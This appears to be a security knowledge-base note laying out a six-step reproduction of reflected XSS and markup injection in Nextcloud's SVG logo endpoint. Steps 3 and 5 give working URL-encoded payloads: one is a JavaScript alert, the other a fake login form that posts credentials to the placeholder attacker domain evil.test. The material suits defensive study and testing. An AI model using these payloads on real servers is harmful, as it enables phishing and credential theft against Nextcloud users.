

---
tags:
  - xss
  - markup-injection
  - phishing
  - nextcloud
  - svg
type: attack_chain
tools:
  - '[[tools/Browser-Developer-Tools]]'
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Setup-Nextcloud-Test-Instance]]'
  - '[[procedures/Prepare-Browser-for-Vulnerability-Testing]]'
  - '[[procedures/Inject-XSS-Payload-in-SVG-Logo]]'
  - '[[procedures/Observe-XSS-Exploitation-Results]]'
  - '[[procedures/Inject-Phishing-Form-via-SVG-Markup]]'
  - '[[procedures/Observe-Phishing-Injection-Results]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Phishing]]'
description: >-
  Demonstrates exploitation of a reflected XSS and markup injection
  vulnerability in Nextcloud Server's SVG logo endpoint to inject JavaScript
  alerts or phishing forms, enabling potential credential theft despite CSP
  mitigations.
skill_level: intermediate
impact_level: high
id: 7a51f018-e18d-4b73-b9cb-a97dd3045f5d
created_at: '2025-12-14T03:47:18.615Z'
updated_at: '2025-12-14T03:47:18.615Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Phishing]]'
---
# Reflected XSS and Markup Injection in Nextcloud SVG Logo Endpoint for Phishing

Multi-stage attack chain demonstrating exploitation of the 'color' parameter in Nextcloud's SVG logo endpoint to break out of attributes and inject arbitrary SVG elements, leading to reflected XSS for JavaScript execution (if CSP bypassed) or markup injection for phishing forms that submit credentials to attacker-controlled domains.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Developer-Tools]]
- [[tools/Web-Browser]]

### Target Environment

- Nextcloud Server (Web platform)
- PHP-based services
- Access to SVG rendering endpoint
- Local or test network for setup

### Initial Access Requirements

- Administrative access to deploy a Nextcloud test instance
- No prior credentials needed for the vulnerable endpoint
- Attacker must lure victim to visit crafted URL (e.g., via phishing email)

## Detailed Attack Procedures

### Step 1: Setup Nextcloud Test Instance
procedure: [[procedures/Setup-Nextcloud-Test-Instance]]

**Objective**: Deploy a local Nextcloud instance to replicate the vulnerable SVG logo endpoint for safe testing.

**Instructions**: Install and configure Nextcloud on a local server, replacing 'server.test' in URLs with the local IP or domain (e.g., http://localhost/nextcloud).

**Expected Output**: Running Nextcloud instance accessible via browser.

**Success Indicators**:
- Nextcloud login page loads without errors
- SVG logo endpoint responds (e.g., /index.php/svg/core/logo/logo)

### Step 2: Prepare Browser for Vulnerability Testing
procedure: [[procedures/Prepare-Browser-for-Vulnerability-Testing]]

**Objective**: Enable inspection and bypass CSP to observe full exploitation effects.

**Instructions**: Open Browser Developer Tools to monitor console and network; optionally disable CSP in browser settings for testing JavaScript execution.

**Expected Output**: Dev tools panel open, CSP warnings visible in console.

**Success Indicators**:
- No CSP blocks on page load
- Console ready for error inspection

### Step 3: Inject XSS Payload in SVG Logo
procedure: [[procedures/Inject-XSS-Payload-in-SVG-Logo]]

**Objective**: Craft and deliver a payload to break out of the SVG fill attribute and inject onload JavaScript.

**Instructions**: Use the Web Browser to navigate to the endpoint with the encoded payload: https://server.test/nextcloud/index.php/svg/core/logo/logo?color=f00%22/%3E%3Cg%20onload=%22javascript:alert(1)%22%3E%3C/g%3E%3Ccircle%20alt=%22meh.

**Expected Output**: SVG renders with injected <g> element attempting JS execution.

**Success Indicators**:
- Alert popup if CSP disabled
- Injected elements visible in page source

### Step 4: Observe XSS Exploitation Results
procedure: [[procedures/Observe-XSS-Exploitation-Results]]

**Objective**: Verify XSS injection and note CSP impacts.

**Instructions**: Inspect the console in Browser Developer Tools for CSP violations or successful alert execution.

**Expected Output**: Console logs showing blocked JS or alert dialog.

**Success Indicators**:
- CSP violation messages in console
- Partial markup injection confirmed

### Step 5: Inject Phishing Form via SVG Markup
procedure: [[procedures/Inject-Phishing-Form-via-SVG-Markup]]

**Objective**: Inject a fake login form using foreignObject to capture credentials.

**Instructions**: Navigate to the endpoint with phishing payload: https://server.test/nextcloud/index.php/svg/core/logo/logo?color=fff%22/%3E%3CforeignObject%20class=%22node%22%20x=%220%22%20y=%220%22%20width=%22600%22%20height=%22600%22%3E%3Cdiv%20xmlns=%22http://www.w3.org/1999/xhtml%22%3E%3Cp%3ELogin%3C/p%3E%3Cform%20action=%22//evil.test%22%3E%3Cinput%20placeholder=%22Username%22%20type=%22text%22/%3E%3Cbr/%3E%20%3Cinput%20placeholder=%22Password%22%20type=%22text%22%20/%3E%3Cbr/%3E%3Cinput%20type=%22submit%22%20value=%22Login%22%20/%3E%3C/form%3E%3C/div%3E%3C/foreignObject%3E%3Ccircle%20alt=%22.

**Expected Output**: Rendered SVG containing HTML form submitting to evil.test.

**Success Indicators**:
- Form fields visible in SVG
- Form action points to attacker domain

### Step 6: Observe Phishing Injection Results
procedure: [[procedures/Observe-Phishing-Injection-Results]]

**Objective**: Confirm injected form usability for phishing and styling potential.

**Instructions**: Use Browser Developer Tools to inspect the SVG source, verifying foreignObject injection and noting CSS styling from Nextcloud themes.

**Expected Output**: Injected HTML form in SVG, ready for embedding in iframes to obscure origin.

**Success Indicators**:
- foreignObject element present in source
- Form submits on interaction (test in isolated environment)

## Attack Chain Summary

### Key Achievements

1. Successful attribute breakout in SVG color parameter
2. Injection of JavaScript for XSS (bypassing CSP shows alert)
3. Rendering of phishing login form for credential theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Phishing]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
